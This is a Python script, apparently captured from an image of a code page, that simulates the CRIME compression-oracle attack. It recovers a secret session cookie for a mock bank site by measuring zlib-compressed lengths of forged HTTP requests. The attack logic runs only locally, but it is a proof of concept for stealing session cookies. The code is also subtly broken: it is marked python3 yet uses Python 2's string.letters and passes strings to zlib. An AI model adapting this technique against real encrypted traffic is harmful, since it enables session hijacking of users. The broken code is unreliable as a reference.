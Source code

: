 #!/usr/bin/python3
import string
import zlib
import sys
import random
  
charset = string.letters + string.digits
  
COOKIE = ''.join(random.choice(charset) for x in range(30))
  
HEADERS = ("POST / HTTP/1.1\r\n"
           "Host: thebankserver.com\r\n"
           "Connection: keep-alive\r\n"
           "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
           "Accept: */*\r\n"
           "Referer: https://thebankserver.com/\r\n"
           "Cookie: secret="+COOKIE+"\r\n"
           "Accept-Encoding: gzip,deflate,sdch\r\n"
           "Accept-Language: en-US,en;q=0.8\r\n"
           "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3\r\n"
           "\r\n")
BODY =    ("POST / HTTP/1.1\r\n"
           "Host: thebankserver.com\r\n"
           "Connection: keep-alive\r\n"
           "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
           "Accept: */*\r\n"
           "Referer: https://thebankserver.com/\r\n"
           "Cookie: secret=")
cookie = ""
  
def compress(data):
  
    c = zlib.compressobj()
    return c.compress(data) + c.flush(zlib.Z_SYNC_FLUSH)
def getposset(perchar,chars):
    posset = []
    baselen = len(compress(HEADERS+perchar))
    for i in chars:
        t = len(compress(HEADERS+ perchar+i))
        if (t<=baselen):
            posset += i
    return posset
def doguess():
    global cookie
    while len(cookie)<30:
        posset = getposset(BODY+cookie,charset)
        trun = 1
        tem_posset = posset
        while 1<len(posset):
            tem_body = BODY[trun:]
            posset = getposset(tem_body+cookie,tem_posset)
            trun = trun +1
        if len(posset)==0:
            return False
        cookie += posset[0]
        print (posset[0])
        return True
  
while BODY.find("\r\n")>=0:
    if not doguess():
        print ("(-)Changebody")
        BODY = BODY[BODY.find("\r\n") + 2:]
print ("(+)orign  cookie"+COOKIE)
print ("(+)Gotten cookie"+cookie)
